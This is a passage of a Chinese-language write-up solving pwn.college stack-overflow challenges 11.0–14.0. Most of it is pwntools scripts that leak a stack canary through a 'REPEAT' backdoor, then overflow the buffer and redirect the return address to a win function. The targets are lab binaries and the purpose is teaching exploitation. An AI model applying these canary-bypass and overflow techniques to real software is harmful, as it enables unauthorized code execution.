 ### 11.0

类似 10.0，只不过 mmap 在了堆上。

```python
payload = b'a'*4096*7
s(payload)
```

### 12.0

题目提供了一个后门，使得只要输入中含有 `REPEAT`，`challenge()` 就会重新执行。利用这一点以及 canary 最低字节必定为 0 的特性，我们覆盖 canary 最低字节为 `0x01`，从而使得栈上字符串不被截断，顺带打印出 canary 高 7 字节的值。随后在溢出时只需要注意用正确的值覆盖 canary 即可绕开检测，剩余部分类似 7.0。

```python
win = 0x751

while True:
    p = process(binary)
    payload = b'REPEATaa' + b'a'*0x10 + b'\x01'
    s(payload)
    ru(b'\x01')
    canary = u64(b'\x00' + r(7))
    leak('canary', canary)

    payload = b'a'*0x18 + p64(canary) + b'a'*8 + p16(win)
    s(payload)

    res = p.recvall()
    if b'pwn.college{' in res:
        print(res[-100:])
        break
```

### 13.0

类似 10.0。

```python
payload = b'a'*172
s(payload)
```

### 14.0

本题和 12.0 的区别在于打印函数只会打印 268 个字符，而输入到 canary 相距 272 字节。不过本题比较仁慈，canary 的值在栈上距离更近的位置也有出现，可以 leak 这些位置的值。

```python
win = 0x13c

while True:
    p = process(binary)
    payload = b'REPEATaa' + b'\x01'
    s(payload)

    ru(b'\x01')
    canary = u64(b'\x00' + r(7))
    leak('canary', canary)

    payload = b'a'*280 + p64(canary) + b'a'*8 + p16(win)
    s(payload)

    res = p.recvall()
    if b'pwn.college{' in res:
        print(res[-100:])
        break
```